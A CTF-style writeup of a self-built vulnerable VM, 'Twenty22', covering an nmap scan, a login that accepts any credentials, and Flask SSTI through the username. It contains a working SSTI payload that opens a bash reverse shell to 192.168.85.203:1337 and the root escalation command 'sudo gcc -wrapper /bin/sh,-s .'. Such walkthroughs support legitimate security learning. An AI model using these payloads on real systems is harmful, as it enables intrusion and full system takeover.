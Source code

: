 ```yaml
---

title: Writeup for Twenty22

date: 2022-01-20 07:39:05 +0200

categories: [Build vulnerable VMs,Writeup for Twenty22]

tags: vulnerable_VM

---
```


### Nmap

```js
PS E:\> nmap -sC -sV 10.10.10.101
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-20 07:03 India Standard Time
Nmap scan report for 10.10.10.101
Host is up (0.0000030s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 9f:5a:7c:82:c0:2e:e1:c9:57:b5:7d:66:04:e9:31:0e (RSA)
|   256 02:90:6e:33:7a:b2:53:83:a6:0f:2f:16:93:94:a1:96 (ECDSA)
|_  256 cf:8b:32:62:3d:22:79:8b:2b:f0:9f:f0:94:87:24:dd (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Twenty22 | Login
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 08:00:27:C3:C3:3D (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.42 seconds
```
- There're two ports opened, 22 has ssh and 80 has an apache webserver
- Let's visit the web page

### Website
![login-page](https://i.imgur.com/sPx1JbN.png)
- Here's a login page, but we don't have any credentials
- Let's try with `admin:admin`

![welcome-admin](https://i.imgur.com/4QPXx0u.png)
- It worked, let's try with other credentials, for example `test:test` 

![test-test](https://i.imgur.com/GaMTlpo.png)
- I think there's no login check, it simply logs us in with any credentials
- And our username is reflecting here `[ Welcome test, It's late the CTF has ended ]`
- Let's enum other pages

### CTF site
- This is a mini CTF site
- Sadly the CTF has ended
- There are two web challenges, which still active
- But it's not hosted inside this machine, Its publicly hosted so we can't make use of that challenges
- There's a scoreboard and users pages
- This page uses a cookie `user:test`
- Our username will be stored there
- Nothing interesting than our reflected input and cookies

![static](https://i.imgur.com/tDGnVnP.png)
- By viewing the source there's a folder name `static`
- So let's try for **SSTI** 

#### SSTI
- I used ![7*7](https://i.imgur.com/b8rE1NY.png) as my username

![ssti](https://i.imgur.com/vDKsJQA.png)

- It works :D
- So this is a flask app has SSTI
- Let's try to get a reverse shell

![rev-payload](https://i.imgur.com/oO8kGam.png)
<!--{{config.__class__.__init__.__globals__['os'].popen('/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.85.203/1337 0>&1"').read()}} -->

![shell as www-data](https://i.imgur.com/2t8obfL.png)
- Cool we got shell :D

### User part
![credentials-pwn](https://i.imgur.com/elLKb0X.png)
- We can't see user.txt but we got credetials for pwn user
- There's a todo.txt in `/home/pwn` and a password is there
- Let's try this to login as `pwn`

![user.txt](https://i.imgur.com/NkC2IZ6.png)
- Nice we got user
- Let's upgrade our shell

### Root part
![sudo -l](https://i.imgur.com/ce66c7y.png)
- By running `sudo -l` we can see that `pwn` user can run `/usr/bin/gcc` with sudo

![gtfobins](https://i.imgur.com/SkM5TJg.png)
- Quickly I searched in gtfobins and it has gcc

![sudo gcc](https://i.imgur.com/PkdeFP1.png)
- Let's run this command 

`sudo gcc -wrapper /bin/sh,-s .`

![rooted](https://i.imgur.com/eFP7fHl.png)
- Cool we rooted :D
- That's all guys, I hope you liked this box <3 
- See my previous post [How to create vulnerable VM](https://jopraveen.me/posts/create-vulnerable-vm/)
